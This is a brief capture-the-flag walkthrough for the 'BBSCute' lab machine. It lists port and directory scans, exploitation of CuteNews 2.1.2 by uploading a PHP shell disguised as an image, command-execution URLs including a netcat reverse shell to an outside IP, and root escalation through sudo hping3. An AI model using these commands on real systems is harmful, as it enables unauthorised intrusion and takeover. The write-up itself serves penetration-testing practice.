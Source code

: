 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# BBSCute
# 26/1/2023

----------------------------------------------------
# nmap result / exploitation
----------------------------------------------------
```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
88/tcp  open  kerberos-sec
110/tcp open  pop3
995/tcp open  pop3s


 gobuster dir -u http://192.168.62.128/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -x .php -t 40

/index.php


got vulnerable version of cute news 2.1.2
python3 48800.py                                                                                     
create new user
loging
modify php shell as a image 
and rce/lfi/rfi
http://192.168.62.128/uploads/avatar_shub_shell1.php?cmd=whoami;
http://192.168.62.128/uploads/avatar_shub_shell1.php?cmd=nc%20-e%20/bin/sh%20192.168.49.62%209090;


sudo -l
hping3
hping3
/bin/sh -p
you got root
```

